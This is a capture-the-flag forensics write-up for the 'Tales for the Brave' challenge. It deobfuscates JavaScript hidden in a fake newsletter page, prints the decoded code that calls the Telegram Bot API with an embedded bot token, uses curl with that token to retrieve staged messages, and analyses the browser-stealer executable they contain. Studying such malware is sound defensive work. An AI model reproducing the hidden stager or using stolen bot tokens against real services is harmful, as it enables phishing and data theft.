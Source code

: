 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Tales for the Brave Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: forensics
challenge: Tales for the Brave
tags: "forensics, twh, javascript, obfuscation, api, win32pe, wireshark"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>


## Tales for the Brave
> Solved by thewhiteh4t


- This was an interesting one because we were given a website as the starting point
- Looking at the source code, we can see `index.js` is loaded, contents :


![](https://i.imgur.com/JCKcHuS.png)

- So the JavaScript is obfuscated and uses `CryptoJS`, we can use an online deobfuscator : 


![](https://i.imgur.com/XjIy88q.png)

- Another better alternative is to use debugger in the browser, using debugger is simple, just open tools, click on debugger, hit pause and submit the form and the decoded JavaScript is revealed : 


![](https://i.imgur.com/bLswUQG.png)

- I copied this code into a `.js` file and cloned the website as well :

```
    > cat index.html
    <!DOCTYPE html>
    <html lang="en"><head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>Newsletter Signup</title>
      <link rel="stylesheet" href="index.css">
      <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
    </head>
    <body>
      <div class="newsletter">
        <div class="image-section">
          <img src="img/storytellingEldoriaMyths.png" alt="Rings">
        </div>
        <div class="form-section">
          <h1>Tales of Eldoria: Stories of Magic and Bravery for the Young and Curious</h1>
          <p>In the mystical lands of Eldoria, where dragons soar and ancient magic pulses through the air, storytelling is more than just a pastime—it's a tradition that bridges generations. Imagine a magical evening where children gather around glowing crystal orbs, listening to the mesmerizing myths and legends of Eldoria. These tales teach courage, friendship, and the magic of harmony.</p>
          <form id="newsletterForm">
            <input type="email" id="email" placeholder="Email">
                    <input type="text" id="descriptionField" placeholder="Description">
            <div class="checkbox-group">
              <p>The newsletter offers:</p>
              <label><input class="cb" id="c1" type="checkbox"> Legends of Dragons</label>
              <label><input class="cb" id="c2" type="checkbox"> Ancient Magic</label>
              <label><input class="cb" id="c3" type="checkbox"> Adventures of Heroes</label>
              <label><input class="cb" id="c4" type="checkbox"> Eldoria Myths</label>
            </div>
            <div class="buttons">
                <button type="submit" data-node-outlined="false" class="button primary">SUBMIT</button>
            </div>
          </form>
        </div>
      </div>
      <script src="./decrypted.js"></script>
    
    
    </body></html>
```

- After some inspection I noticed an interesting variable `_$_5975` and how it was used :

```
    function f(oferkfer, icd) { const channel_id = -1002496072246; var enc_token = _$_5975\\[0]; if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]\](sequence[_$_5975[6]](_$_5975[5]))\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[2]]) === _$_5975\\[8]) { var decrypted = CryptoJS[_$_5975[12]\][_$_5975[11]\](enc_token, CryptoJS\[_$_5975[3]\][_$_5975[9]]\[_$_5975[10]](oferkfer), { drop: 192 })\[_$_5975[4]\](CryptoJS[_$_5975[3]\][_$_5975[9]]); var HOST = _$_5975\\[13] + String[_$_5975[14]\](0x2f) + String\[_$_5975[14]\](0x62) + String\[_$_5975[14]\](0x6f) + String\[_$_5975[14]\](0x74) + decrypted; var xhr = new XMLHttpRequest(); xhr\[_$_5975[15]] = function () { if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) { const resp = JSON[_$_5975[10]\](xhr[_$_5975[18]]); try { const link = resp\[_$_5975[20]\][_$_5975[19]]; window\[_$_5975[23]\][_$_5975[22]\](link) } catch (error) { alert(_$_5975\[24]) } } }; xhr[_$_5975[29]\](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975\[26] + icd + _$_5975[27] + channel_id + _$_5975[28]); xhr[_$_5975[30]\](null) } else { alert(_$_5975[24]) } }
```

- It's an array and multiple items from the array were being used, so I decided to print the array, by adding a small loop : 

```
    for (var i = 0; i < 31; i++) {
      console.log(i, _$_5975[i])
    }
```

![](https://i.imgur.com/saOoRYc.png)

- As we can see, some encoded strings, parts of a URL, telegram and most importantly `RC4Drop` which is a type of cipher available in `CryptoJS`
- After this I substituted the values according to array index and ended up with the following :

```
    if (oferkfer === G('s3cur3k3y') && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
            var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
                drop: 192
            }).toString(CryptoJS.enc.Utf8);
            var HOST = 'https://api.telegram.org' + String.fromCharCode(0x2f) + String.fromCharCode(0x62) + String.fromCharCode(0x6f) + String.fromCharCode(0x74) + decrypted;
    
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    const resp = JSON.parse(xhr.responseText);
                    try {
                        const link = resp.result.text;
                        window.location.replace(link)
                    } catch (error) {
                        alert('Form submitted!')
                    }
                }
            };
            console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
            xhr.open('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5');
            //xhr.send(null)
        } else {
            alert('Form submitted!')
        }
```

- Decryption block is executed if the condition is satisfied : 

```
    oferker -> email before @tld
    G('s3cur3k3y') -> 0p3r4t10n_4PT_Un10n
```

- So the email to satisfy the condition should be `0p3r4t10n_4PT_Un10n@abc.com` but since the script is running locally we can simply bypass the conditions
- In the end the code block sends a GET request, so I inspected the URL : 

```
    console.log('GET', HOST + String.fromCharCode(0x2f) + 'forwardMessage?chat_id=' + icd + '&from_chat_id=' + channel_id + '&message_id=5')
    
    GET https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/forwardMessage?chat_id=NaN&from_chat_id=-1002496072246&message_id=5 decrypted.js:128:17
```

- So the telegram API is being called, and we get the following things : 

```
    Bot ID : bot7767830636
    Bot token : AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc
    chat_id : Null
    from_chat_id : -1002496072246
    message_id : 5
```

- `forwardMessage` does exactly what the name suggests, it will forward a message from one chat to another, but some requirements need to be fulfilled for this to happen : 

```
    Bot should be present on both chats
```

- But in the URL we can see that `chat_id` is missing, so we will make our own by creating a `group` in telegram, and then we can add the bot to our group
- But we don’t know the name of the bot, to solve this there is another endpoint we can call : 

```
    > curl -s 'https://api.telegram.org/bot7767830636:AAF5Fej3DZ44ZZQbMrkn8gf7dQdYb3eNxbc/getMe' | json_pp
    
    {
       "ok" : true,
       "result" : {
          "can_connect_to_business" : false,
          "can_join_groups" : true,
          "can_read_all_group_messages" : false,
          "first_name" : "OperationEldoriaBot",
          "has_main_web_app" : false,
          "id" : 7767830636,
          "is_bot" : true,
          "supports_inline_queries" : false,
          "username" : "OperationEldoriaBot"
       }
    }
```

- After adding the bot to our group we can iterate from message IDs `1 - 10` to get all the messages : 


![](https://i.imgur.com/1b1xrhh.png)



- We got a zip file which contains a tool that targets Brave browser, inside the zip is a windows PE file
- Time for dynamic analysis, after using `Process Explorer, Process Monitor` etc. I finally checked `WireShark` for network activity because a browser stealer is expected to send the information
- And a single DNS query popped up : `z0lsc2S65u.htb` which obviously does not exist
- So I did the following :

```
    Added the domain in windows Hosts file
    Started a PHP server on my other box on port 31337 as seen in wireshark
    Launched Brave.exe again
```

![](https://i.imgur.com/Iaaj6RH.png)



- And we get a POST request to our server


![](https://i.imgur.com/LTALsWD.png)



- JSON data was being sent but more interestingly there was a `Authorization` header with JWT :


![](https://i.imgur.com/vTH0E4n.png)

- Double base64 encoded flag : 

```
    HTB{APT_c0nsp1r4c13s_b3h1nd_b3n1gn_l00k1ng_s1t3s}
```
